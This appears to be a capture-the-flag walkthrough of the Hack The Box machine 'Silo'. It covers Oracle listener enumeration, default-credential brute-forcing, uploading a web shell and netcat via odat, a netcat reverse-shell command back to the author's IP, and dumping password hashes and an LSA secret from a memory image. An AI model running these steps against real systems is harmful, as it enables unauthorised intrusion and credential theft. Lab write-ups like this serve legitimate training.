





# Silo
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.82 -T4                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 16:33 BST
Warning: 10.10.10.82 giving up on port because retransmission cap hit (6).
Stats: 0:09:50 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 83.01% done; ETC: 16:45 (0:02:01 remaining)
Nmap scan report for 10.10.10.82 (10.10.10.82)
Host is up (0.14s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
1521/tcp  open     oracle
5985/tcp  open     wsman
27464/tcp filtered unknown
30480/tcp filtered unknown
36752/tcp filtered unknown
46311/tcp filtered unknown
47001/tcp open     winrm
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
49161/tcp open     unknown
49162/tcp open     unknown
54636/tcp filtered unknown
54826/tcp filtered unknown
63783/tcp filtered unknown
64449/tcp filtered unknown

```
```
└─$ nmap -Pn -sC -sV 10.10.10.82 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 16:47 BST
Nmap scan report for 10.10.10.82 (10.10.10.82)
Host is up (0.13s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
|_clock-skew: mean: -37s, deviation: 0s, median: -37s
| smb2-time: 
|   date: 2023-09-07T15:49:13
|_  start_date: 2023-09-07T15:31:46
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.51 seconds

```
- `smb`
```
└─$ smbclient -N -L //10.10.10.82     
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.82/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error    
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.82/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx,txt
[+] Timeout:                 10s
===============================================================
2023/09/07 16:59:40 Starting gobuster in directory enumeration mode
===============================================================
===============================================================
2023/09/07 17:03:29 Finished
===============================================================
                                                                 
```
## Foothold/User
- We have `Oracle` 
  - https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/oracle
  - https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener#enumeration
  - https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
- Attack steps according to [presentatio](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf):
  - `Locate Oracle Systems`
  - `Determine Oracle Version.`
  - `Determine Oracle SID`
  - `Guess/Bruteforce USER/PASS`
  - `Check out the database`
  - `Privilege Escalation `
- We know the server
  - We can skip 2-nd step
  - Let's find `SID`s
  - We can do it using `odat`, `tnscmd10g`, `msfconsole`, `hydra`
```
└─$ odat sidguesser -s 10.10.10.82

[1] (10.10.10.82:1521): Searching valid SIDs                                                                                                                                                                                                
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                #####################################################################################################################################################################  | ETA:  00:00:02 
100% |#####################################################################################################################################################################################################################| Time: 00:03:41 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |#####################################################################################################################################################################################################################| Time: 00:00:07 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...                ###############################################################################################################################################                        | ETA:  00:00:21 
100% |#####################################################################################################################################################################################################################| Time: 00:03:20 
[+] SIDs found on the 10.10.10.82:1521 server: XE
```
```
└─$ hydra -L sids-oracle.txt -s 1521 10.10.10.82 oracle-sid 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-07 17:29:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 737 login tries (l:737/p:1), ~47 tries per task
[DATA] attacking oracle-sid://10.10.10.82:1521/
[1521][oracle-sid] host: 10.10.10.82
[1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
[STATUS] 556.00 tries/min, 556 tries in 00:01h, 181 to do in 00:01h, 16 active
[1521][oracle-sid] host: 10.10.10.82   login: XE
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-07 17:31:12
```
- We have 3 `SID`s: `XE`, `CLRExtProc`, `PLSExtProc`
  - Now we need to brute force user and password
    - https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener#user-pass-bruteforce
  - `/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt`
  - I used `odat passwordguesser` with 2 different wordlists
```
└─$ sudo odat passwordguesser  -s 10.10.10.82 -d XE --accounts-file /home/kali/Documents/Tools/accounts.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521                                                                                                                                                       
18:04:06 WARNING -: The line 'jl/jl/\n' is not loaded in credentials list: ['jl', 'jl', '']
18:04:06 WARNING -: The line 'ose$http$admin/invalid/password\n' is not loaded in credentials list: ['ose$http$admin', 'invalid', 'password']
The login brio_admin has already been tested at least once. What do you want to do:                                                                                                                                        | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                                                                                                                                             | ETA:  00:13:45 
[!] Notice: 'hr' account is locked, so skipping this username for password                                                                                                                                                 | ETA:  00:12:32 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                                                                                                                                              | ETA:  00:10:18 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                                                                                                                                             | ETA:  00:08:30 
[!] Notice: 'dip' account is locked, so skipping this username for password#######                                                                                                                                         | ETA:  00:08:15 
[!] Notice: 'system' account is locked, so skipping this username for password###############################################                                                                                              | ETA:  00:05:40 
[!] Notice: 'xdb' account is locked, so skipping this username for password######################################################################################                                                          | ETA:  00:03:16 
[!] Notice: 'outln' account is locked, so skipping this username for password#################################################################################################                                             | ETA:  00:02:33 
[+] Valid credentials found: scott/tiger. Continue... ############################################################################################################################################################         | ETA:  00:00:28 
100% |#####################################################################################################################################################################################################################| Time: 00:12:20 
[+] Accounts found on 10.10.10.82:1521/sid:XE: 
scott/tiger          
```

- We found creds: `scott:tiger`
  - Use `sqlplus` to connect
```
└─$ sqlplus SCOTT/tiger@10.10.10.82:1521/XE

SQL*Plus: Release 19.0.0.0.0 - Production on Thu Sep 7 18:43:19 2023
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 

```
- Let's check privileges
```
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

- Let's connect as `sysdba`
  - or `odat all -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba`
```
└─$ sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba

SQL*Plus: Release 19.0.0.0.0 - Production on Thu Sep 7 18:49:16 2023
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
```
```
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO

SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.

```

- [odat's mind map](https://github.com/quentinhardy/odat)



- We can try using `utlfile` and `externaltable` to upload `binary` and get reverse shell (but with no arguments)
  - Or we can upload `aspx` and `nc` files via `utlfile` and get web shell

```
└─$ odat utlfile -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' nc.exe ~/Documents/Tools/nc64.exe

[1] (10.10.10.82:1521): Put the /home/kali/Documents/Tools/nc64.exe local file in the C:\inetpub\wwwroot folder like nc.exe on the 10.10.10.82 server                                                                                       
[+] The /home/kali/Documents/Tools/nc64.exe file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the nc.exe file
```
```
└─$ odat utlfile -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' shell.aspx /usr/share/webshells/aspx/cmdasp.aspx

[1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like shell.aspx on the 10.10.10.82 server                                                                                 
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the shell.aspx file
```

- Now let's get reverse shell
  - `c:\inetpub\wwwroot\nc.exe 10.10.16.9 6666 -e cmd`




## Root
- `whoami`
```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

c:\windows\system32\inetsrv>

```
- `SeImpersonatePrivilege` is `Potato` Privesc
  - It works, check [0xdf](https://0xdf.gitlab.io/2018/08/04/htb-silo.html#rottenpotato-privesc)
  - We could also run `odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt`
    - `oracle` is running as `nt/system`, so we can get root via any C2 payload
- Let's try another way
  - Check for creds in files
```
c:\Users>WHERE /R . *.txt
WHERE /R . *.txt
c:\Users\All Users\VMware\VMware Tools\manifest.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\adobeflashcs3.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\adobephotoshopcs3.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\googledesktop.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\microsoftoffice.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\vistasidebar.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\visualstudio2005.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\vmwarefilters.txt
c:\Users\All Users\VMware\VMware Tools\Unity Filters\win7gadgets.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\AppData\Local\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Desktop\Oracle issue.txt
c:\Users\Phineas\Desktop\user.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Application Data\Microsoft\Internet Explorer\brndlog.txt
c:\Users\Phineas\Local Settings\Microsoft\Internet Explorer\brndlog.txt
```
- `c:\Users\Phineas\Desktop\Oracle issue.txt` looks interesting
```
c:\Users>type "c:\Users\Phineas\Desktop\Oracle issue.txt"
type "c:\Users\Phineas\Desktop\Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
�%Hm8646uC$
```



- The password has a weird symbol
  - I downloaded it to my box and its `£%Hm8646uC$`
  - `vim` can see it
    - But had to install `vim-gtk3`
    - And used `"+y` after selecting the block in visual mode




- It's a memory dump
  - We need `systeminfo`

```
c:\Users>systeminfo
systeminfo

Host Name:                 SILO
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-00115-23036-AA976
Original Install Date:     12/31/2017, 11:01:23 PM
System Boot Time:          9/7/2023, 4:31:35 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,083 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,585 MB
Virtual Memory: In Use:    1,214 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A

```

- Now we only have to run `volatility` and dump the memory
```
└─$ python3 volatility3/vol.py -f ~/Downloads/SILO-20180105-221806.dmp windows.lsadump.Lsadump
Volatility 3 Framework 2.5.1
Progress:  100.00               PDB scanning finished                                                                                              
Key     Secret  Hex

DefaultPassword DoNotH@ckMeBro! 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 44 00 6f 00 4e 00 6f 00 74 00 48 00 40 00 63 00 6b 00 4d 00 65 00 42 00 72 00 6f 00 21 00 00 00
DPAPI_SYSTEM    ,Ï%14®C-¬ò§tmC¨¦©Bb÷UpH»}þyI½   2c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 cf 25 94 31 34 9e ae 43 2d 8b 87 ac f2 a7 74 1c 6d ec 1c 04 08 43 a8 a6 a9 42 62 f7 55 70 48 bb 17 7d 82 fe 79 49 02 bd 00 00 00 00
```
```
└─$ python3 volatility3/vol.py -f ~/Downloads/SILO-20180105-221806.dmp windows.hashdump.Hashdump
Volatility 3 Framework 2.5.1
Progress:  100.00               PDB scanning finished                                
User    rid     lmhash  nthash

Administrator   500     aad3b435b51404eeaad3b435b51404ee        9e730375b7cbcebf74ae46481e07b0c7
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
Phineas 1002    aad3b435b51404eeaad3b435b51404ee        8eacdd67b77749e65d3b3d5c110b0969
```

- We can use hash and connect as `Administrator`

